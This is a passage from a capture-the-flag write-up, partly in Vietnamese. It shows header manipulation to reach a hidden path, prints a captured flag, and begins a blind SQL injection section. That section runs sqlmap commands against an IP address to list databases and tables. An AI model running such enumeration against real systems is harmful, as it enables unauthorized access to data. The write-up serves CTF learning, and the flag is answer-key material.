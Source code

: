 
Add referrer to the package.
- We get the password to access /flagflagflagflag

![SecretDirectory5](./sources/SecretDirectory5.gif)


- We got the flag

![SecretDirectory6](./sources/SecretDirectory6.gif)
 
 
	Flag: HCMUS-CTF{1t_1zzzz_Crucial_t0_kn0W_Headers_and_R0b0tz}

### Blind SQL
- Check thử tên thử tên admin thì hiện thông báo có tồn tại 
![Blindsql](./sources/Blindsql.gif)
- Sử dụng lệnh này
    ./sqlmap.py http://159.65.13.76:1340/ --data="username=admin" --dbs
    
![Blindsql1](./sources/blindsql1.gif)    


	./sqlmap.py -u http://159.65.13.76:1340/ --data="username=admin" --table -D blind-sql
	Tìm dược bảng account

![Blindsql2](./sources/blindsql2.gif)	 
	 